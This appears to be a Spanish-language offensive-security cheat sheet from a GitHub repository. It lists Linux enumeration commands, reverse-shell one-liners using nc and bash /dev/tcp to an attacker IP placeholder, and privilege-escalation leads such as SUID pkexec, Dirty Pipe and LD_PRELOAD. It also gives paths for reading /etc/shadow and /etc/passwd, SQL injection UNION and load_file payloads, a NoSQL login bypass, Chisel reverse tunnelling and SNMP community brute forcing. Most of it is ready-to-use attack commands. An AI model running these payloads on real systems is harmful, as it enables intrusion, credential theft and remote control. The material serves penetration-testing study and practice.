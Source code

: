 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands

### FIND
* Listar los permisos SUID, debe estar en la carpeta raiz del SO: ``` find  \-perm -4000 2>/dev/null ```

### Sistema Operativo
* Conocer la IP de la máquina ``` hostname -I ```
* Permite ver los puertos abiertos de la máquina ``` netstat -nat ```
* Permite ver los procesos corriendo en la máquina ``` ps -faux ```
* Permite ver los archivos que tienen procesos abiertos ``` lsof -i:<PORT> ```
* Permite ver la descripción del sistema operativo ``` lsb_release -a ```
* Permite ver la versión del kernel ``` uname -a ```
* Permite ajustar el número de filas y columnas de la tty ``` stty rows <ROW_NUMBER> columns <COLUMN_NUMBER> ```
* Permite convertir hexadecimal a texto ```echo "<HEX>" | xargs | xxd -ps -r ```
* Buscar las capabilities ``` getcap -r / 2>/dev/null ```
* Ver procesos corriendo (Para este caso se filtra y se muestra los procesos de root) ``` ps aux | grep root ```

### Full TTY
Te permite tener una consola interactiva
* [Full TTYs](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

### Python
* Crear un servidor de python en mi máquina local ``` python3 -m http.server <PORT> ```

### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

* ``` nc -e /bin/bash <MY_IP> <PORT> ```
* ``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```
* ``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```


## Privilege Escalation

### Docker Escape
* [Docker Socket Escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

### Pkexec
Se comprueba si existe pkexec instalado y si tiene permisos SUID
> which pkexec | xargs ls -l

### Dirty Pipe
Se debe tener GCC instalado en la máquina a atacar
* [Dirty Pipe](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

### Ld_preload & Ld_library_path
En sudo -l debe aparecer ld_preload
* [Ld_preload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

### SetEnv
En sudo -l se debe poder ejecutar archivos
[Set an environment variable](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv)


## Information Disclose
Archivos PHP con posible información sensible

### Linux
Usuarios y passwords
```
/etc/passwd
/etc/shadow
```
Puertos abiertos
```
/proc/net/tcp
```
Conocer segmento de red de la máquina
```
/proc/net/fib_trie
```

### PHP
```
/cgi-bin/phpinfo.php
/info.php
```


## SQL Injection

### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -

### Cargar archivos
> ' union select 1,2,load_file("/etc/passwd")


## NoSQL Injection
> admin'||''==='


## Tools

### Kubernetes
#### Kubeletctl
* ``` kubeletctl exec -s <SERVER_IP>  -p <POD_NAME> -c <CONTAINER_NAME> -i "bash" ```

### Chisel
Chisel se usa para realizar acciones como **LOCAL o REMOTE PORT-FORWARD**

Dejar abierta una conexión como Server
```
./chisel server --reverse -p <PORT>
```
Abrir una conexión como Client al Server, para este caso asiendo **Remote Port-Forward**
```
./chisel client <CHISEL_SERVER_IP>:<CHISEL_SERVER_PORT> R:<LOCAL_PORT>:<LOCAL_IP>:<LOCAL_PORT>
```

### SNMP
#### Onesixtyone
Onesixtyone permite hacer fuerza bruta para conocer las community en un servicio snmp
```
onesixtyone <REMOTE_IP> -c <DICTIONARY_PATH>
```
### Snmpwalk
```
snmpwalk -c <COMMUNITY> -v<SNMP_VERSION> <REMOTE_IP> <SEARCH_PATH>
```
Ejemplo, consideremos que el caracter **|** indica que podemos utilizar una de esas
```
snmpwalk -c public|private|etc -v1|2c|3 1.1.1.1 1|2
```